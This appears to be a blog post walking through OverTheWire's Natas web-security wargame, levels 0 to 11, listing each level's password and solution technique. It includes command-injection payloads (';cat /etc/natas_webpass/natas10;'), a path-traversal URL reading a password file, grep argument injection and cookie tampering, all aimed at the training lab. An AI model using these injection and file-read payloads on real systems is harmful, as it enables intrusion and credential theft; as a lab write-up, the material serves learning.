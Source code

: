 ```yaml
---
title: 'Over The Wire - Natas'
date: '2023-04-19'
tags: ['Info Sec', 'Linux']
draft: false
summary: "Walkthrough of each level of Over the Wire's Natas series. Its a game which helps players master web server vulnerabilities testing"
bibliography: references-data.bib
layout: PostSimple
---
```


## Level 0

natas0

Search HTML for pw

## Level 1

PW in HTML, but must open source with hotkeys

## Level 2

h4ubbcXrWqsTo7GGnnUMLppXbOogfBZ7

Flag isn't on the page, but a file inside a resource at this path.

http://natas2.natas.labs.overthewire.org/files/users.txt

## Level 3

G6ctbMJ5Nb4cbFwhpMPSvxGHhQ7I6W8Q

Flag isn't inside that file but robots.txt, a disallowed route

http://natas3.natas.labs.overthewire.org/robots.txt

http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt

## level 4

natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm

Use Burp & ProxyFoxy to intercept requests and change them before forwarding to
the server.

## level 5

Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD

Use JS console to change document cookie and refresh.

document.cookie="loggedin=1"

## level 6

fOIvE0MDtPTgRhqmmvvAOt2EfXR6uQgR

Checkout a file that is included in the source code that the page points to.
http://natas6.natas.labs.overthewire.org/includes/secret.inc

## level 7

jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr

We can trick the server into showing us the page at that path using a query parameter.

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

## level 8

a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB

Use tehplayground.com to reverse engineer the encoded password thats being compared.

## level 9

Sda6t0vkOPkM8YeOZkAGVhFoaplvlJFd

https://www.alevsk.com/2020/01/ctf-overthewire-natas9/

Use command injection

;ls -la;
To see files on the server

;cat /etc/natas_webpass/natas10;

To read from a file on the server

## level 10

D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

Search for this value
a /etc/natas_webpass/natas11

Use the logic of the function to invoke grep command and search for pw in a file
on the server

## level 11

1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
